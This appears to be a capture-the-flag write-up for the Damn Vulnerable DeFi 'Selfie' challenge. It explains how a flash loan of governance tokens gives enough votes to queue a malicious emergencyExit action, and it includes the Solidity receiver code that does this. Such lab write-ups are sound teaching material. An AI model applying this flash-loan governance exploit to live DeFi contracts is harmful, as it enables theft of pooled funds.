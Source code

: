 # The number of token that you own represent you voting power.

There is two vulnerabilities in this challenge, one the that the voting power is directly proportional to the number of gov token that you own. And two, the `Selfie` pool offers `flash-loan` of gov tokens.

What you only have to do is create a flash-loan receiver contract(see `selfie/SelfieReceiver.sol` file)that borrow an amount of gov tokens enough to represent more than 51% of tokens in circulation to be able to queue an action on the governance mechanism and after that return the funds to the pool.

That action can be to call `SelfiePool.emergencyExit` function in favor of the recovery address.
```js
    function onFlashLoan(
        address initiator,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata data
    ) external returns (bytes32){
@>      bytes memory actionData = abi.encodeCall(SelfiePool.emergencyExit, (payable(recovery)));
        uint256 receiverBalance = IERC20(token).balanceOf(address(this));
        console.log('receiverBalance: ', receiverBalance);
        
        DamnValuableVotes(token).delegate(address(this));
        governance.queueAction(address(pool), 0, actionData);

        IERC20(token).approve(address(pool), amount);
        return CALLBACK_SUCCESS;
    }
```

Once the action is queued you can call the `governance.executeAction ` function and the governance contract will execute  the `SelfiePool.emergencyExit` function with the given params.